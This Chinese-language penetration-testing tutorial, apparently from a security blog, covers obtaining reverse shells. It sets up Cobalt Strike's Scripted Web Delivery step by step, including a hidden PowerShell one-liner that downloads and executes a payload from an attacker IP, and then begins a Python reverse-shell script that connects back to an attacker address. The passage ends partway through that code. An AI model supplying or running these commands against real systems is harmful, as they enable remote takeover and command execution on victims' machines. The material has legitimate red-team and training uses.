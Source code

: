 ### Cobalt strike

Cobalt strike的Scripted Web Delivery模块，可通过bitsadmin、powershell、python、regsvR32等进行反弹shell，类似metasploit的web_delivery模块

①运行服务端

```shell
./teamserver 192.168.2.103 123 #123为连接密码
```

②运行客户端：

Windows运行cobaltstrike.jar #用户名随便输入 密码123

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/1598437160.png)

③开启监听:

点击Cobalt Strike->Listeners

payload可选择windows/beacon_http/reverse_http

说明：其中windows/beacon 是Cobalt Strike自带的模块，包括dns,http,https,smb四种方式的监听器，windows/foreign 为外部监听器，即msf或者Armitage的监听器

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/1598437131.png)

④生成powershell payload:

点击Attack -> Web Drive-by -> Scripted Web Delivery

Type选择 powershell

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/1598437118.png)

生成的payload：

```shell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.2.103:8887/a'))"
```

⑤生成代码已经给出了，在windows上执行

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/1598437102.png)

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/1598437091.png)

### python反弹cmd

可以用python编写反弹cmd的代码。参考大佬的代码改写而成，更简单使用一些

```python
# -*- coding:utf-8 -*-
import os
import select
import socket
import sys
import subprocess

def ReserveConnect(addr, port):
    '''反弹连接shell'''
    try:
        shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        shell.connect((addr,port))
    except Exception as reason:
        print ('[-] Failed to Create Socket : %s'%reason)
        exit(0)
    rlist = [shell]
```